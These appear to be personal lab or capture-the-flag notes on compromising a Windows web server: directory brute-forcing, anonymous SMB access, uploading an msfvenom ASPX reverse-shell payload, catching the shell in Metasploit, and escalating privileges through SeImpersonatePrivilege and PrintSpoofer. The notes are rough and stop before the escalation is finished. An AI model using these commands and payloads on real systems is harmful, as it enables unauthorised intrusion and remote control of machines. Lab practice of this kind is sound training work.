 
enumeration
```
gobuster dir -u http://10.10.50.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html,txt
```
smb
```
smbclient -L \\\\10.10.50.140\\
```
```
smbclient  \\\\10.10.10.144\\nt4wrksv
```
make payload  (note check payload is the same in msfvenom and msfconsole
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.137.19 LPORT=8910 -f aspx -o reverse1.aspx
```
in the smb share add   
```
put reverse1.aspx
```

browser
```
http://10.10.10.144:49663/nt4wrksv/reverse1.aspx
```
execute the browser and msfconsole 

```
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.137.19
LHOST => 10.10.137.19
msf6 exploit(multi/handler) > set LPORT 8910
LPORT => 8910
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.137.19:8910 
[*] Command shell session 2 opened (10.10.137.19:8910 -> 10.10.10.144:49762) at 2025-05-28 21:24:48 +0100
```=

Shell Banner:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
-----
          

c:\windows\system32\inetsrv>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

c:\windows\system32\inetsrv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\windows\system32\inetsrv
```
msfshell

```
cd c:\Users\Bob\Desktop
```
user.txt

Priv Escalation

```
whoami /priv
```
SeImpersonatePrivilege

location of the smb directory 
```
c:\inetpub\wwwroot\nt4wrksv
```
https://github.com/itm4n/PrintSpoofer

i can use metasploit for it. bg session 

```
search printspooler

use 4

sessions

set session 1

run

```
need to upgrade meterpreter shell 
```
use post/multi/manage/shell_to_meterpreter

set session 1

run
```
now need to run the printspooler again
```



I couldnt get the smb share to copy the file over to my machine and still not sure of the error
